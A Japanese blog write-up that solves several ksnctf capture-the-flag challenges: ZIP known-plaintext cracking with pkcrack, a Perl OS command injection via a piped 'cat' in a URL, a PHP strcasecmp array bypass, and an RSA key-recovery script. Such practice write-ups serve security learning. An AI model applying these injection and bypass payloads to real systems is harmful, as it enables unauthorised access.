

「ZIPでくれ」とよく聞きますよね。

「誰もが使っているものが本当に安全なのか？」と「このAAに意味はない」と書いてあります。

早速、zipファイルを開こうとしたらパスワードがかかっていました。

とりあえず、john the ripperを使ってパスワードクラックを試してみましたが、終わりそうにありません。

ちなみに使ったコマンドはこれ。（ちなみにzip2johnはパスが通ってなかったのでファイルを直接参照しました）
```zsh
zip2john flag.zip > hash.txt
john hash.txt
```

これで終わらなかったため、色々試行錯誤していたところ、zipファイルのバイナリの最後尾にこんな文字列を見つけました。

Hint
- It is known that the encryption system of ZIP is weak against known-plaintext attacks.
- We employ ZIP format not for compression but for encryption.

なるほど、known-plaintext attack にzipは弱いと書いてありますね。

known-palaintext attack は日本では既知平文攻撃と呼ばれています。

では、既知平文攻撃に使えそうなプレーンテキストはあるのかとバイナリ内を探してみたら、

「Standard-lock-key.jpg」という文字を見つけました。

検索してみると、鍵の有名な画像？なのですかね。ヒットしました。

[File:Standard-lock-key.jpg](https://commons.wikimedia.org/wiki/File:Standard-lock-key.jpg)

ということで、一番上の画像を保存、あとは既知平文攻撃を行うだけですね。

既知平文攻撃は[pkcrack](https://github.com/keyunluo/pkcrack)というツールが有名らしいです。

セットアップを行い、実行してみました。

```zsh
pkcrack -C flag.zip -c Standard-lock-key.jpg -p Standard-lock-key.jpg -d ans.zip
```

しかし、「No solutions found. You must have chosen the wrong plaintext.」と言われてしまいました。

ここでかなり苦戦したのですが、Wikiを確認しているとなんとStandard-lock-key.jpgが2種類あることに気付きました。



待て、この問題が作成されたのはいつだ....?

「Released at: 2012/06/03」

そういうことか...

ということで、下の鍵を保存してもう一度コマンドを実行しました。

```zsh
pkcrack -C flag.zip -c Standard-lock-key.jpg -p oldkey.jpg -d ans.zip 
```

Flagを得ることができました。

余談ですが、pkcrackをMacで実行するのにかなり手間取りました。

cmakeをインストールしたり、ファイルを直接指定して実行したりと、そこが一番苦労しましたね。

あと、久しぶりにwriteupなしで解くことができました。

---

## Q20 「G00913」


「πの連続する桁で見つかる最初の10桁の素数」を探せと

ChatGPTに代わりに探して貰いました。

あんまり、LLMは使わないほうがいいのかな？

この問題の性質的に使ってもいいかなと思い使いました。

※2024/06/01 追記
→ 使わずに円周率をある程度の長さ出力してもらって、
　 1文字ずつずらして素数判定すればよかったなと思った。

---

## Q22 「Square Cipher」



Square ということで、縦31文字、横31文字。

文字列の並びを見たらBase64を疑いますが、文字列内に数字や=がないため、違いそう。

最初の行と最後の行、左端の列と右端の列が小文字のみで構成されていることを見つけましたが、そこで止まってしまった。

最終的には、有志のサイトを参考にしました。

Squareというのがポイントだったらしく、

正方形 → QRコード という発想が必要だった....

文字列を正規表現でCSV形式に変更し、Excelに読み込む。

下記の関数で大文字かどうかを検証し、TRUE、FALSEに変更。

```
=EXACT(Sheet1!A1,UPPER(Sheet1!A1))
```

TRUE（大文字）の部分を黒で塗りつぶすことでQRコードとして読み取れる形になりました。

下記が参考にしたサイトです。ありがとうございました。

[ksnctf 22 Square Cipher 60pt](https://qiita.com/samohan/items/7cf6990a99c0515a7e67)

---

## Q25 「Reserved」


length , print , else ... と読める文字が多いので暗号化はされていないようですね。

プログラミング言語っぽいので `endprotoent` 辺りの関数を検索してみたところPerlかCかという感じ。

ひとまず、文字列を[paiza.io](https://paiza.io/ja/projects/new)を使って、Perlで実行してみたところFlagを得ることができました。

余談ですが、[paiza.io](https://paiza.io/ja/projects/new)かなり便利ですよね。

paizaさんいつもありがとうございます。

---

## Q26 「Sherlock Holmes」



シャーロック・ホームズか

まず、気になったのは「index.pl」です。

Perl で書かれているということで、Perl の脆弱性とか関わってくるのかな。

「index.pl」を開いたら、テキストファイルのリンクが3つと参照元のリンクが1つ。

すべてソースまで確認したが怪しいところはない。

では、「q26」フォルダが見れるか試してみようということで、
```path
https://ctfq.u1tramarine.blue/q26/
```

見ることができました。



「flag.txt」だ。勝ったな。と思い開いてみますが、

```
FROG_CroakCroak

How about to try to see the source code?
```

フラグっぽい文字とソースコードを見てみろという指示がありました。

ソースコードはあらかた見ていて怪しいところはありませんでした。

「cracked.txt」もソースは空。

ここで止まってしまいました。

Perl の脆弱性とかなんかなと思っていましたが、やはりそのようです。

[安全なウェブサイトの作り方 - 1.2 OSコマンド・インジェクション](https://www.ipa.go.jp/security/vuln/websecurity/os-command.html)

上記のサイトに書いてありました。

「外部プログラムを呼び出し可能な関数の例：Perl： open(), system(), eval() 等」　

「Perlのopen関数は、引数として与えるファイルパスに「|」（パイプ）を使うことでOSコマンドを実行できる」

ということで、早速、OSコマンドインジェクションを試してみます。

```
https://ctfq.u1tramarine.blue/q26/index.pl/ | cat index.pl
```

Flagを得ることができました。

しっかり、open関数を使っていますね。

---

## Q28 「Lo-Tech Cipher」



zipファイルが一つ。

解凍してみると２つの画像ファイルがありました。

まあ、とりあえず重ねてみるかということで重ねてみたら下部に何らかの文字列が、



読みにくすぎると誰もが思ったでしょう。または、Gimpでやったのが悪かったのか...

とりあえず、「hidden in the ZIP」は読み取れるので、zipファイルのバイナリを見たところ

ヘッダが「PK」（zipファイルを示すヘッダ）ではなく、「PNG」になっていました。

拡張子をPNGに変え、開いたところ、また似たような画像でしたので、また重ねてみたらFlagを得ることができました。

ちなみに3枚目の画像を重ねるとかなり字が濃くなり、見やすくなりました。

[Visual cryptography](https://en.wikipedia.org/wiki/Visual_cryptography)という技術らしいですね。

---

## Q29 「Double Blind」



お、Wordファイルか。

Officeファイルはとりあえず.zipをつけて解凍してしまうもの。

メインであるdocument.xmlを開いたら中に書いてました。

余談ですが、Macbook純正の解凍アプリだとOfficeファイルにzip拡張子をつけても解凍できませんでした。

サードパーティ製アプリの[The Unarchiver](https://theunarchiver.com/)を使うことで解凍することができました。

---

## Q32 「Simple Auth」



ソースを見たところパスワードの検証に `strcasecmp` を使っているようです。

この関数には脆弱性があり、配列を入力して実行すると0（値の一致）が返ってきてしまいます。

ブラウザのデベロッパーモードを開き、nameを配列型にします。

```
name = "password" → name = "password[]"
```

Flagを得ることができました。

また、`strcasecmp`は大文字、小文字も区別しないのでその点も注意ですね。

[strcasecmp](https://www.php.net/manual/ja/function.strcasecmp.php)

---

## Q33 「HTTPS is secure.」



コードだけ記述しておきます。

``` Python
import math

from Crypto.PublicKey import RSA
from Crypto.Util.number import inverse

u1 = 20912068408571562329765690555061159289641629285082404210189101064954330953315593257557260077525915152641073106397431556875680393639301995231540409600633056790407217644109479375811025952060540276714119842291972532268686811648476477127818267411283106601195166099848608860814911133056759210847640244371352294577674757844032344743192797680553522630615249481210459669536735468283778508143359159893770374788694416907786510825727199111604249000530550012491935109887922826382346971222271516625157446929215544796309806757863550058676780306722906895167581167203804721314732494889662194466565293268848629536070864750745494338531

u2 = 20810915617344661448636429656557804394262814688853534649734586652859523797380885650024809244693377123486154907319690068259378744245911427062593140588104970879344505836367952513105241451799550533959908906245319537215140226739848280012005678383612764589285444929414256249733809498630880134204967826503346173071037885178145189051140796573786694250069189599080301164473268293037575740360272856085402928759232391893060067823996007021668671352199570084430112300612196486186252109596457909476374557998336186613887204545677563178904634941310201398366965571422359228917354256271527331840144577394174480450746748283277750230727

e = 65537

q = math.gcd(u1,u2)

u1_p = u1 // q

u2_p = u2 // q

# 最小公倍数
def lcm(x, y):
    return (x * y) // math.gcd(x, y)

# 拡張ユークリッドの互除法
def extended_gcd(a, b):
    if a == 0:
        return b, 0, 1
    else:
        gcd, x, y = extended_gcd(b % a, a)
        return (gcd, y - (b // a) * x, x)

"""
自作したこの関数とCryptoのinverse関数の結果が違うのは、
inverseは算出結果が負の場合、自動的にモジュラ逆数を取って正の形に変更してくれる。
自分の関数は負のまま出力される。
"""
# u1_d = extended_gcd(e,lcm(u1_p-1,q-1))[1]
# u2_d = extended_gcd(e,lcm(u2_p-1,q-1))

u1_d = inverse(e,(u1_p-1)*(q-1))

u2_d = inverse(e,(u2_p-1)*(q-1))

u1_key = RSA.construct(map(int, (u1,e,u1_d)))

u2_key = RSA.construct(map(int, (u2,e,u2_d)))

# print(u1_key.exportKey().decode('utf-8'))

# print(u2_key.exportKey().decode('utf-8'))

"""
参考になったサイト
・https://hayashier.com/article/ctf-tls-decrypt-writeup/
・https://qiita.com/enjoy_ctf/items/ebbbe517b27cf07eb14b
"""
```

---

## Q35 「Simple Auth II」



ソースを見たところ、database.dbが相対パス指定されていたためauth.phpと同じ階層にあるのではと思い、URLを打ち込んだところダウンロードできました。

[DB Browser for SQLite](https://sqlitebrowser.org/)を使い、Flagを得ることができました。

---

## 終わりに

ksnctfを制覇できるまでどんどん追記していきます。

※2024/7/13 追記
→ 2151点まで来ました。

最後までお読みいただきありがとうございました。

---